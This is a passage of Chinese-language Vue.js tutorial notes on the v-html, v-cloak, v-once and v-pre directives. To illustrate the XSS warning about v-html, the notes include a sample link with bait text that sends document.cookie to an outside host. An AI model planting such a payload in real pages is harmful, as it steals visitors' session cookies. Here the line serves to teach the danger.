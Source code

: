   - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

  - 一定要在可信的内容上使用`v-html`，永不要用在用户提交的内容上！

```html
<div v-html="str"></div>
<div v-html="str2"></div>
```

```js
data: {
    name: "尚硅谷",
    str: "<h3>你好啊！</h3>",
    str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
},
```

### 14.3`v-cloak`

- `v-cloak`指令（没有值）：
  - 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉`v-cloak`属性
  - 使用CSS配合`v-cloak`可以解决网速慢时页面展示出`{{xxx}}`的问题

```html
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
```

```css
[v-cloak]{
    display:none;
}
```

### 14.4`v-once`

-  `v-once`指令：
  - v-once所在节点在初次动态渲染后，就视为静态内容了
  - 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能

```html
<h2 v-once>初始化的n值是:{{n}}</h2>
<h2>当前的n值是:{{n}}</h2>
<button @click="n++">点我n+1</button>
```

### 14.5`v-pre`

- ` v-pre`指令：
  - 跳过其所在节点的编译过程。
  - 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<h2 v-pre>Vue其实很简单</h2>
<h2 >当前的n值是:{{n}}</h2>
<button @click="n++">点我n+1</button>
```
